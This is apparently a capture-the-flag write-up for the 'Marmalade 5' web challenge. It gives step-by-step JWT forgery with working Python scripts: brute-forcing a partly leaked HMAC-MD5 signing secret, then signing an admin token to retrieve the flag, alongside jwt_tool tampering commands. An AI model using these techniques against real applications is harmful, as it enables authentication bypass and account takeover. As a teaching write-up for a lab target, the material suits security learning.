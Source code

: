 # Marmalade 5

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/a418fee4-93dc-41a9-99af-ea7a73ac5416)

I started doing this challenge when it was "easy". I finished it when it was classed as Medium. The first page we see asks us to choose a username:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e4584e17-68ea-4b93-9924-ffd93fefa5a0)

After that it tells us that only the admin can see the flag:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/0b5d088c-1941-4ab6-aeff-2a88926c990c)

Intercepting this request, we also notice it is setting what looks like a JWT token, as it is separated in 3 different components by a dot.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2a19e4ad-388a-4979-8687-2709e8807b08)

I created another user with only one character (because I'm lazy), and can confirm that we can decode it in https://jwt.io.

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/e6a537ac-655d-4f45-9b22-d9e6e5f039d4)

However it has a very weird header. The `MD5_HMAC` is definitely out of the ordinary and non-standard for JWT encryption. I first tried stripping that and trying a token with algorithm set to `none`. I used [jwt_tool.py](https://github.com/ticarpi/jwt_tool/blob/master/jwt_tool.py) to tamper with the header and claims.

```bash
jwt_tool.py -X a -I -pc username -pv admin 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6InMifQ.49BQc1Pj96LW8tUhAHXzYA'
```

Although it didn't work, we did get an interesting error message:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/2eebd518-4582-4fce-8d57-75a64a2e28d0)

It's checking for the header so we have to keep that, however it leaked part of the secret using for signing it. We are only missing 5 of the last characters and based on what we can see, it seems it is only made up of lowercase letters.

In this case I wrote a quick short python script to generate all possible 5 lowercase letters permutations and write them to a wordlist I could then use to bruteforce the key:

```python3
import itertools

characters = 'abcdefghijklmnopqrstuvwxyz'
permutations = itertools.product(characters, 5)

with open('permutations.txt', 'w') as file:
    for perm in permutations:
        line = 'fsrwjcfszeg' + ''.join(perm) + '\n'
        file.write(line)
```

Because it's a non-standard encryption, we can't really use the jwt library in python, hashcat or john or any other of the already existing tools that I could find. In this case I created a python script to manually generate a JWT with MD5 signature based on the header and payload of the JWT I generated on the website earlier:

```python3
import base64
import hashlib
import hmac
import json

def remove_padding(encoded_string):
    return encoded_string.rstrip("=")


def jwt_creator(secret_key):
        encoded_header = 'eyJhbGciOiJNRDVfSE1BQyJ9'
        encoded_payload = 'eyJ1c2VybmFtZSI6InMifQ'

        encoded_token = encoded_header + "." + encoded_payload

        signature = hmac.new(secret_key.encode("utf-8"), encoded_token.encode("utf-8"), hashlib.md5).digest()
        encoded_signature = remove_padding(base64.urlsafe_b64encode(signature).decode("utf-8"))

        jwt_token = encoded_token + "." + encoded_signature

        return jwt_token

or_jwt = 'eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6InMifQ.49BQc1Pj96LW8tUhAHXzYA'

permutations_file = 'permutations.txt'
secret_found = None

with open(permutations_file, 'r') as f:
    for line in f:
        secret_key = line.strip()
        token = jwt_creator(secret_key)
        print(token)
        if token == or_jwt:
            secret_found = secret_key
            break

if secret_found:
    print("Found secret: " + secret_found)
else:
    print("No matching secret found.")
```

After a short while, I was able to find the secret:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/cc74a622-0c67-405a-ab7c-a78cb4a89daa)

As expected, it was all lowercase: `fsrwjcfszegvsyfa`

We can modify the script now with a new claim for the payload, we base64 encoded `{"username":"admin"}` and hardcoded it to be safe:

```python3
import base64
import hashlib
import hmac
import json

def remove_padding(encoded_string):
    return encoded_string.rstrip("=")


def jwt_creator(secret_key):
	encoded_header = 'eyJhbGciOiJNRDVfSE1BQyJ9'
	encoded_payload = 'eyJ1c2VybmFtZSI6ImFkbWluIn0'

	encoded_token = encoded_header + "." + encoded_payload

	signature = hmac.new(secret_key.encode("utf-8"), encoded_token.encode("utf-8"), hashlib.md5).digest()
	encoded_signature = remove_padding(base64.urlsafe_b64encode(signature).decode("utf-8"))

	jwt_token = encoded_token + "." + encoded_signature

	return jwt_token

print(jwt_creator('fsrwjcfszegvsyfa'))
```

The resulting token was: eyJhbGciOiJNRDVfSE1BQyJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.Ho2USEpkq5cYai7UhMJ9pQ

And we got the flag:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/fedb6b28-3825-4d22-98b0-f38ff8b65f76)

 flag{a249dff54655158c25ddd3584e295c3b}
